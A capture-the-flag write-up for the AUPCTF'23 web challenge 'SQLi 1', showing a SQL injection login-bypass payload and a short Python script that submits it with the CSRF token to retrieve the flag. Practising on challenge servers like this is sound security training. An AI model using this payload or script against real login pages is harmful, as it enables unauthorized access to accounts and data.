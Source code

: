 ```yaml
---
title: AUPCTF'23 - Web - SQLi 1
date: '2023-06-25'
tags: ['ctf', 'web', 'aupctf', 'sqli', 'login-bypass']
draft: false
summary: 
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/sqli-1/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/sqli1.png)

Now, since we already know that the challenge is of `SQLi`, we can try random payloads, the most common one I use in `beginner-friendly ctfs` is:

```sql
' OR 1 -- -
```

And, it works!

![Login Page](/static/writeups/aupctf/web/sqli1_flag.png)

As you might've already guessed by know how much I love `python`, I wrote a script to automate this. Similar to [Conundrum](/blog/writeups/aupctf/web/conundrum/), we need to send the data to the login page and we have a `csrfmiddlewaretoken`, so we will use the same script, but change the username password to the payload:

```py
import requests
import re

url = "https://challs.aupctf.live/sqli-1/"

sess = requests.Session()

username = "' OR 1 -- -"
password = "' OR 1 -- -"

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password
	}
)
flag = re.findall("<h2>(.*?)</h2>", r.text)[0]
print(f"Flag: {flag}")
```

And, we get the flag:
Flag: `aupCTF{3a5y-sql-1nj3cti0n}`